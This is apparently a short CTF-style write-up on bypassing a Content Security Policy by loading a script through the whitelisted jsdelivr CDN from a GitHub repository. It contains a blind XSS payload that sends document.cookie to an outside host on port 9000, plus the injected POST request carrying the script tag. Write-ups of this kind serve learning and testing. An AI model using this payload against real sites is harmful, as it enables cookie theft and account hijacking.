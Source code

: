 # Detection
- Find CSP header in response and 
  ```bash
  Content-Security-Policy: script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'
  ```
- Check the CSP security in _https://csp-evaluator.withgoogle.com/_ to find wich tag is missing.
- Find a trusted origin.
  - Here is `https://cdn.jsdelivr.net` and by check it's documentation we can see that we're able to bind out Github file to it.
  - https://cdn.jsdelivr.net/gh/user/repo@version/file  →  https://cdn.jsdelivr.net/gh/z0r8a/temp/evil4.js
- Put maliciuos payload for blind xss in our Github repository (`evil4.js`)
  ```javascript
  var xhttp = new XMLHttpRequest();
  xhttp.open('GET', 'http://cvefix.ir:9000?' + document.cookie, true);
  xhttp.send();
  ```
- Put the payload in request.
  - `"` should be scaped in Burp. 
  ```bash
  POST /api/submit HTTP/1.1
  (Request Body)
  {"halloween_name":"<script src=\"https://cdn.jsdelivr.net/gh/z0r8a/temp/evil4.js\"></script>","email":"ehsan@ehsan.com","costume_type":"spellcaster","trick_or_treat":"tricks"}
  ```


# Resource
- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass

